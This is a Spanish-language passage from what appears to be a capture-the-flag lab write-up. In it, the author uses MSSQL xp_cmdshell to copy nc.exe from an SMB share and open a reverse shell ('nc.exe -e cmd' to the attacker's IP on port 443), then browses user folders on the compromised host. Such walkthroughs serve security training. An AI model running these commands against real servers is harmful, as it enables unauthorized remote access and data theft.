 y ahora funciona:

```
SQL (sa  dbo@master)> xp_cmdshell copy \\10.10.14.115\cangrejo\nc.exe C:\Windows\Temp\test 
output                      
-------------------------   
        1 file(s) copied.   

NULL
```

```
SQL (sa  dbo@master)> xp_cmdshell dir C:\Windows\Temp\test
output                                               
--------------------------------------------------   
 Volume in drive C has no label.                     

 Volume Serial Number is 3705-289D                   

NULL                                                 

 Directory of C:\Windows\Temp\test                   

NULL                                                 

07/01/2025  12:05 PM    <DIR>          .             

07/01/2025  12:05 PM    <DIR>          ..            

07/01/2025  11:50 AM            59,392 nc.exe
```

Me envio una shell con nc.exe al puerto `443`:

```
SQL (sa  dbo@master)> xp_cmdshell C:\Windows\Temp\test\nc.exe -e cmd 10.10.14.115 443
```

y obtengo la shell:

```                     
listening on [any] 443 ...
connect to [10.10.14.115] from (UNKNOWN) [10.129.1.36] 63372
Microsoft Windows [Version 10.0.17763.6640]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
sequel\sql_svc
```

Nada en C:\Users

```
C:\Users>tree /f /a
tree /f /a
Folder PATH listing
Volume serial number is 3705-289D
C:.
+---Administrator
+---Public
|   +---Accounting Department
|   |       accounting_2024.xlsx
|   |       accounts.xlsx
|   |       
|   +---Documents
|   +---Downloads
|   +---Music
|   +---Pictures
```